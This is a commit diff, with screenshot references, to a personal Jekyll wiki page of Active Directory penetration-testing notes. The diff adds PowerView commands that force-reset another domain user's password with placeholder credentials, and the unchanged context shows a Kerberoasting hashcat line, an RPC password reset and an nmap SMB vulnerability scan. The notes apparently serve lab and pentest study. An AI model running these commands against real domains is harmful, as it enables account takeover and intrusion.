

Before and after one commit to qwutony/qwutony.github.io, a Jekyll site: the page built from _wiki/003-active-directory-penetration-testing.md, in a window 1280 px wide and 1400 px high, scrolled down 3360 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; a style sheet for code colours, icons or effects is not loaded; some of the changed text lies outside the part shown.

Commit message:
Update 003-active-directory-penetration-testing.md

````diff
--- a/_wiki/003-active-directory-penetration-testing.md
+++ b/_wiki/003-active-directory-penetration-testing.md
@@ -135,7 +135,15 @@ hashcat -m 13100 --force -a 0 kerberoasting.hashes /usr/share/wordlists/rockyou.
 
 ```
 net rpc password AUDIT2020 -U BLACKFIELD\\support -S BLACKFIELD.local (prompts new password)
+
+$SecPassword = ConvertTo-SecureString 'Password123!' -AsPlainText -Force
+$Cred = New-Object System.Management.Automation.PSCredential('CONTOSO\\dfm.a', $SecPassword)
+$UserPassword = ConvertTo-SecureString 'Password123!' -AsPlainText -Force
+Set-DomainUserPassword -Identity andy -AccountPassword $UserPassword -Credential $Cred (optional $Cred)
 ```
+
+**Additional Resources**
+  - [BloodHound ForceChangePassword](https://support.bloodhoundenterprise.io/hc/en-us/articles/17223286750747-ForceChangePassword)
 
 **[Pass The Hash](https://swisskyrepo.github.io/InternalAllTheThings/active-directory/hash-pass-the-hash/#references)**
 ```
@@ -188,7 +196,10 @@ pipx install git+https://github.com/Pennyw0rth/NetExec
 ```
 
 **[PowerView (Deprecated since 2021)](https://github.com/PowerShellMafia/PowerSploit/blob/dev/Recon/PowerView.ps1)**
-```. .\powerview.ps1```
+```
+. .\powerview.ps1
+Import-Module C:\Temp\PowerView.ps1
+```
 
 **NSE**
 ```--script smb-os-discovery,smb-enum-shares,smb-enum-users,smb-vuln*```
````
